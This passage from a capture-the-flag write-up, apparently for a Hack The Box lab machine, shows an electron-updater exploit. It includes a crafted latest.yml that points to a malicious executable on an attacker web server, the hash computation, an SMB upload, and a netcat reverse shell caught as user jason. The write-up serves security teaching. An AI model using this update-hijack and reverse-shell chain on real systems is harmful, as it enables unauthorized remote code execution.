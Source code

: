We then create our `latest.yml`. 

```yml
version: 4.0.0
path: http://10.10.14.23/gr'em.exe
sha512: rL9b7/1ZDB/4CH16GB7mwJmHGNmrHgN6zADFn9Td+pWINPYP5lakIHb8xcGg8U0EyzwZwV69cUHV++dWdNsj5Q==
```

The hash in the file is calculated from our malicious exe like in the blogpost.

```php
$ shasum -a 512 gr\\'em.exe | cut -d " " -f1 | xxd -r -p | base64 -w0
FalBnc5eihGRTHVNEm9m5ZCYe7Vo1+SmxpTyUM2Hk09UwZsnxYFjlxnbDeBLJ20PM2lsenR+aWg1fY6KimohJA==
```

Finally we set up a netcat listener and a python webserver on the specified ports and place the latest.yml in a client folder on the smb share.

```php
smb: \client1\\> put latest.yml
putting file latest.yml as \client1\latest.yml (0.4 kb/s) (average 0.6 kb/s)
smb: \client1\\> dir
  .                                   D        0  Sun Apr 18 16:03:22 2021
  ..                                  D        0  Sun Apr 18 16:03:22 2021
  latest.yml                          A      147  Sun Apr 18 16:03:22 2021


                4413951 blocks of size 4096. 1359636 blocks available
```

After a short amount of time we get a hit on our webserver first.

```php
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.132.110 - - [18/Apr/2021 16:05:15] code 404, message File not found
10.129.132.110 - - [18/Apr/2021 16:05:15] "GET /gr'em.exe.blockmap HTTP/1.1" 404 -
10.129.132.110 - - [18/Apr/2021 16:05:15] "GET /gr%27em.exe HTTP/1.1" 200 -
```

The revershell as jason follow's seconds after.

```php
$sudo rlwrap nc -lnvp 443
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.132.110.
Ncat: Connection from 10.129.132.110:56997.
Microsoft Windows [Version 10.0.19042.906]
(c) Microsoft Corporation. All rights reserved.

whoami
whoami
atom\jason

C:\WINDOWS\system32>
```
